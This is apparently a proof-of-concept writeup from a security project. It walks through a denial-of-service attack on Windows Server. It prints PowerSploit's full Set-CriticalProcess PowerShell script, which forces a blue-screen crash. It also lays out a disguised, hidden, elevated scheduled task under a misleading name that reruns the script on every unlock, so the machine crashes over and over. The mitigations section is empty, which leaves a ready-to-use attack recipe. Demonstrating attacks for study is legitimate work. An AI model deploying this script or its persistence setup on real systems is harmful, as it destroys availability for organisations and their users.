

# POC 3 - Denial of Service Attack on Boot Up of Device

## Description

Denial of Service (DoS) attack is an attack that affects the availability of services towards the users. While availability can be restored, if a prolonged attack occurs, systems may be damaged. 

The Windows Server hosts numerous features and services that organizations can leverage. This includes, but is not limited to, Active Directory, File and Storage Services, web services, and more. 

When a DoS attack is launched on these services, organisations are widely affected as these services play an important role and service towards the organisation.  

This attack aims to outline the threats posed to the organisation from a Denial of Service attack making use of a PowerShell script extracted from the PowerSploit module. 

## Steps to Carry Out Exploitation

1. Create a script with the following content and save it in a file locations where it will seem normal


File Location:

```
C:\Users\$username\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos
```

File Name:

```
Startup.ps1
```

Script Content: 

```ps1
function Set-CriticalProcess
{
    [Diagnostics.CodeAnalysis.SuppressMessageAttribute('PSUseDeclaredVarsMoreThanAssignments', '')]
    [CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'High')]
    Param (
        [Switch]
        $Force,

        [Switch]
        $ExitImmediately
    )

    if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator))
    {
        throw 'You must run Set-CriticalProcess from an elevated PowerShell prompt.'
    }

    $Response = $True

    if (!$Force)
    {
        $Response = $psCmdlet.ShouldContinue('Have you saved all your work?', 'The machine will blue screen when you exit PowerShell.')
    }

    if (!$Response)
    {
        return
    }

    $DynAssembly = New-Object System.Reflection.AssemblyName('BlueScreen')
    $AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('BlueScreen', $False)

    # Define [ntdll]::NtQuerySystemInformation method
    $TypeBuilder = $ModuleBuilder.DefineType('BlueScreen.Win32.ntdll', 'Public, Class')
    $PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('NtSetInformationProcess',
    'ntdll.dll',
    ([Reflection.MethodAttributes] 'Public, Static'),
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([IntPtr], [UInt32], [IntPtr].MakeByRefType(), [UInt32]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

    $ntdll = $TypeBuilder.CreateType()

    $ProcHandle = [Diagnostics.Process]::GetCurrentProcess().Handle
    $ReturnPtr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(4)

    $ProcessBreakOnTermination = 29
    $SizeUInt32 = 4

    try
    {
        $null = $ntdll::NtSetInformationProcess($ProcHandle, $ProcessBreakOnTermination, [Ref] $ReturnPtr, $SizeUInt32)
    }
    catch
    {
        return
    }

    Write-Verbose 'PowerShell is now marked as a critical process and will blue screen the machine upon exiting the process.'

    if ($ExitImmediately)
    {
        Stop-Process -Id $PID
    }
}

Set-CriticalProcess -Force -Verbose -ExitImmediately
```

2. Schedule a task using `Task Scheduler` to run this script on startup of device

**General Tab**
|Options|Value|
|--|--|
|Name|Startup Application|
|Description|A script to Startup application dependencies|
|Use the user account|Default User Selected|
|When to Run|Run only when user is logged on|
|Run with highest privileges|Checked|
|Configure for|Windows Server 2022|
|Hidden|Checked|


**New Trigger Tab**
|Options|Value|
|--|--|
|Begin the task|On workstation unlock of any user|
|Enabled|Checked|


**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|-WindowStyle hidden -File "C:\Users\CARR0T\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos\Startup.ps1"|


**Conditions Tab**
|Options|Value|
|--|--|
|Start the task only if the computer is on AC power|Unchecked|


**Settings Tab**
|Options|Value|
|--|--|
|Allow Task to be run on demand|Checked|
|Run tasks as soon as possible after a scheduled start is missed|Checked|
|If the task fails, restart every|1 minute|
|Attempt to restart up to|3 times|
|Stop the task if it runs longer than|3 days|
|If the running task does not end when requested, force it to stop|Checked|
|If the task is not scheduled to run again, delete it after|Unchecked|
|If the task is already running, than the following rules applies|Do not start a new instance|


3. Run the script

4. Notice that the device keeps getting a Blue Screen of Death (BSOD) when the user logs in



## Possible Mitigations


## References

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)  
[Running PowerShell Script without displaying Window](https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window)  

